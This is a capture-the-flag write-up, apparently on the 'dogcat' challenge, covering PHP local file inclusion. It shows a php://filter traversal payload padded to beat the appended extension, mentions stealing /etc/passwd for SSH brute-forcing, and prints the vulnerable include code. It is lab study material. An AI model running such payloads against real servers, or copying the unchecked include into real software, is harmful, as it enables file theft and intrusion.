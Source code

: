 ```py
print(decoded)
```

Soo.. Now i'm still limited by the `.php` that is appended at the end... Gotta find a way to go around this.

I guess we would like to exfiltrate `/etc/passwd` so we can bruteforce the ssh password ? Not sure how else we can get on the machine.

Hmmm so apparently the query parameter string get truncated at some length (payloadAllThings mentionned 4096 bytes but it seems lower in this case).

I added a bunch of `/.` in the path and i get this error :
```
include(): Failed opening 'php://filter/convert.base64-encode/resource=../../../var/lib/mlocate/../../../var/www/html/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././flag.php
```

The path seem ok but it wont include. if I remove the .php it works (The server automatically append the .php to the string).So it seems that only the string that is shown is truncated, not the string that is passed to the include.

We can dump index.php to see whats happening :
```php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

```